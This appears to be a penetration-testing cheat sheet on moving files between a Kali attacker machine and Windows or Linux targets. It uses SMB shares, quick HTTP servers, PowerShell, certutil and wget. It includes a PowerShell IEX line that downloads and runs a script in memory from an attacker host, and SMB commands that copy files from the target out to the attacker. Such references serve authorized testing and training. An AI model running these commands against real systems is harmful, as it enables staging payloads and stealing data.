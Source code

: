 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

KALI to TARGET
```
xcopy \\<Kali IP>\share\<file> C:\<destination_path>\
```

TARGET to KALI
```
xcopy <source_path>\<file> \\<Kali IP>\share\
```


## HTTP - from attacker to target OR target to attacker

Python 2.7
```
cd <path>
python -m SimpleHTTPServer 8000
```

or

Python 3
```
cd <path>
python3 -m http.server 8000
```

or

PHP
```
cd <path>
php -S 0.0.0.0:8000
```

or

Ruby 
```
cd <path>
ruby -run -ehttpd . -p8000
```


### download to Windows

PowerShell
```
Invoke-WebRequest -Uri 'http://<http server IP>:8000/<filename>' -OutFile <filename> 
```

PowerShell from cmd
```
powershell.exe -command Invoke-WebRequest -Uri http://<http server IP>:8000/<filename> -OutFile <filename>
```

Download and execute with `Invoke-Expression` without saving file
```
powershell.exe IEX(New-Object Net.WebClient).downloadstring(http://<http server IP>:8000/<filename>)
```

Certutil
```
certutil -urlcache -split -f 'http://<http server IP>:8000/<filename>' <path_destiny><filename>
```


### download to Linux

wget
```
wget <http server IP>:8000/<filename>
```


## Links
- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
- https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/
- https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html